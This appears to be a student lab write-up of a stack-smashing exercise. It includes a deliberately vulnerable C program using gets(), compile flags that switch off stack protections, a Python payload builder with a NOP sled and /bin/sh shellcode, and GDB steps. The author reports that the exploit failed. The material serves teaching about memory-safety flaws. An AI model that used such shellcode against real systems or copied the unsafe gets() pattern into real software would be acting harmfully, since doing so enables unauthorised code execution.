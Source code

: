 # **Stack Smashing Attack: Exploiting Buffer Overflow to Execute Arbitrary Shellcode**

<div style="margin-bottom: 20px"></div>

![IntroImage](images/introimage.jpg)

# Introduction - Description of the attack

In this demo, I demonstrate a stack-based buffer overflow attack, also known as a stack smashing attack. My goal was to overflow the buffer and overwrite the return address on the stack so that, when the vulnerable function returned, the execution would jump to my injected shellcode. The shellcode was designed to launch a shell (/bin/sh). If successful, this would give me arbitrary command execution from within the vulnerable program, simulating how attackers exploit memory vulnerabilities to gain control over a system. I wrote a simple C program containing a function that defines a fixed-size buffer on the stack. This function uses the unsafe gets() function to read user input, which doesn’t perform any bounds checking. As a result, when I supplied more input than the buffer can hold, I was able to overwrite adjacent memory on the stack—including the saved return address of the function.

However, the exploit was not successful. Despite trying multiple payload offsets and carefully analyzing the stack, I was not able to reliably determine the exact memory address to overwrite the return address with. The program consistently crashed due to segmentation faults, likely because of inaccurate address targeting. 

___

## Environment Setup
The demonstration was carried out on Ubuntu MATE 25.04 "Plucky Puffin" (64-bit) with the following packages installed:

```
sudo apt install gcc-multilib   //for compiling 32-bit C programs
sudo apt install gdb            // for stack memory inspection
sudo apt install python3        // for running python programs
sudo apt install execstack      // makes stack executable
```

Here are the steps that were carried out:
___

## Step 1: Creating a Vulnerable Program
I generated a simple C program (vuln.c) with a function that uses the unsafe gets() function to read user input into a local buffer. This introduced a buffer overflow vulnerability, as gets() does not check the length of the input.

```
/*  vuln.c  ── deliberately unsafe  */
#include <stdio.h>

/* gets() was removed from modern headers; declare it manually */
char *gets(char *);

void vulnerable_function() {
    char buffer[64];
    printf("Enter input: ");
    gets(buffer); 
    printf("You entered: %s\n", buffer);
}

int main() {
    vulnerable_function();
    return 0;
}
```
___

## Step 2: Compiling the Program Without Protections
To make the buffer overflow exploit possible, I compiled the code with the following security protections disabled:

1. Stack canary: disabled using -fno-stack-protector

2. Non-executable stack: disabled using -z execstack

3. ASLR-friendly PIE (Position Independent Executable): disabled using -no-pie

4. 32-bit architecture: enabled with -m32 (as it simplifies address prediction)

```
gcc -m32 -fno-stack-protector -z execstack -no-pie vuln.c -o vuln

```
___

## Step 3: Writing the Exploit Payload
I generated a Python script (exploit.py) to generate a payload containing:

A sequence of NOP (\x90) instructions and a shellcode to execute /bin/sh. The purpose of the NOP sled is to increase the chance of successful redirection so that if the return address lands anywhere in the NOP sled, the processor will “slide” down the NOPs until it reaches the shellcode.

The payload is designed to fill the buffer with 76 bytes of padding ("A" * 76) to overwrite the saved return address with the address of the buffer where the shellcode is located.

```
# exploit.py

# 76 bytes to reach return address
padding = b"A" * 76

# Return address pointing to buffer start (NOP sled + shellcode location)
ret_address = b"\x60\xcd\xff\xff"  # 0xffffcd60 (Little endian)

# NOP sled to slide into the shellcode
nops = b"\x90" * 100

# Shellcode to launch /bin/sh
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    b"\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)

# Full payload
payload = padding + ret_address + nops + shellcode

# Write payload to file
with open("payload", "wb") as f:
    f.write(payload)

```

To generate the payload:

```
python3 exploit.py
```
This creates a file named payload, which can then be passed as input to the vulnerable program.

___

## Step 4: Finding the Offset and ESP Location with GDB
I ran the compiled program in gdb and set breakpoints to pause execution before the return. Using info registers and x/32x $esp, I inspected the stack to estimate the correct memory location where the shellcode would be placed.
```
gdb ./vuln
(gdb) break gets
(gdb) run
(gdb) info registers esp
(gdb) x/32x $esp
```
I used the output to guess a return address that would point into the NOP sled or shellcode.

___

## Step 5: Executing the Exploit
I passed the payload to the vulnerable program using input redirection:

```
./vuln < payload
```

___

## Step 7: Observing the Result
After running the exploit, the program crashed with a segmentation fault instead of launching a shell. I had placed my shellcode in the input along with a NOP sled to increase the chances of hitting it. I also inspected the stack using gdb to find a return address that pointed somewhere into the NOP sled. However, the program still crashed. This suggests that the return address I used didn’t correctly point to the shellcode in memory. It’s likely that the offset or the stack address changed at runtime, making it unreliable. Since stack addresses can vary and are sometimes affected by protections like ASLR (even if partially disabled), the shellcode wasn't reached and executed.

![Figure 1: The Markdown Mark](images/result.png)
)

___

## Acknowledgement 
ChatGPT was used to obtain step-by-step procedures, technical explanations, and code examples relevant to buffer overflow exploitation.


